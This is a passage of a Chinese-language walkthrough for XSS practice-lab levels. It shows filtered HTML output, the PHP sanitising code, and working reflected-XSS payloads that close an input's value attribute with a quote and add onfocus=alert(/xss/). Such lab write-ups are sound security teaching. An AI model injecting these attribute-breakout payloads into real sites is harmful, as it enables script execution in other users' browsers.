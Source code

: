 发现<>都会被实体化 这时候就要想到利用没有尖括号的事件来执行弹窗  
常见的事件有 onerror onload onfocus…  
这里利用onfocus

```php
<input type="text" id="fname" onfocus=onfocus=alert(/xss/)>
//执行语句后 鼠标点击文本框就会弹窗 
```

构造语句：`' onfocus=alert(/xss/)`  
点击输入框 没有弹窗出现 查看源码

```php
<input name="keyword" value="" onfocus="alert(/xss/)'">
```

发现后面还存在一个单独的引号没有被闭合 这里不能使用//注释 所以手动添加一个引号起到闭合作用  
Payload：`' onfocus=alert(/xss/) '`

* * *

## less 4

输入`<script>alert(/xss/)</script>` 查看表单提交的源代码

```php
<input name="keyword" value="scriptalert(/xss/)/script">
    //可以看到<>都已经被替换成空白字符了
```

代审:

```php
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
//用到了str_replace替换函数和htmlspecialchars实体化函数
```

继续尝试找到闭合方式

```php
' qwe
<input name="keyword" value="' qwe">
" qwe //
<input name="keyword" value="" qwe="" "="">	// 发现前面已经被闭合了 并且注释符找不到了
```

开始构造Payload

```php
" onfocus=alert(/xss/) '
<input name="keyword" value="" onfocus="alert(/xss/)" '"="">
```

* * *

## less 5
